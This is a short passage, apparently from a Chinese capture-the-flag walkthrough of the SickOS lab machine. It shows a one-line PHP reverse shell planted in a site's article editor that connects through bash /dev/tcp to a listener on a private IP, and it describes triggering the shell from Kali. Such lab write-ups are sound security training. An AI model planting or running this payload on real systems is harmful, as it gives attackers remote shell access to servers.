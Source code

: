在Atricles的编辑页面处添加上一行php反弹shell代码:`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.47.155/4444 0>&1'");?>`	

![image-20221204124501786](SickOS靶场/image-20221204124501786.png)



kali监听本机的4444端口, 然后点击Atricles页面触发反弹shell代码

![动画](SickOS靶场/动画.gif)
